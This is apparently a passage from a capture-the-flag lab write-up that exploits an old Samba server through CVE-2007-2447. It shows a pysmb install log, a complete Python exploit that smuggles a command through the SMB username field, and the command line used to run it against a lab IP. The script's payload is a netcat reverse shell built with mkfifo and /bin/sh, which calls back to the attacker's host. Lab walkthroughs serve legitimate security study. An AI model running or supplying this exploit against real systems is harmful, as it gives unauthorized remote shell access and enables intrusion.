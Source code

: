 ```
  Building wheel for pysmb (setup.py) ... done
  Created wheel for pysmb: filename=pysmb-1.2.8-py3-none-any.whl size=84114 sha256=79ab1a9709ab6818e2948c1bf1f9046440e8217111477d30c6541cf6776de09f
  Stored in directory: /root/.cache/pip/wheels/bd/87/29/92f27d90591eb2c17d5713e72977a1e066ea6a303c705c4ffc
Successfully built pysmb
Installing collected packages: pysmb
Successfully installed pysmb-1.2.8
WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv                                                                               
                                                
```
{% endcode %}

Python script from GitHub is as follows. The 'nohup' command triggers the exploit.

{% code lineNumbers="true" %}
```python
import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)y
```
{% endcode %}

{% code lineNumbers="true" %}
```
└─# python usermap_script.py 10.10.10.3 139 10.10.14.6 4444
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !

```
{% endcode %}

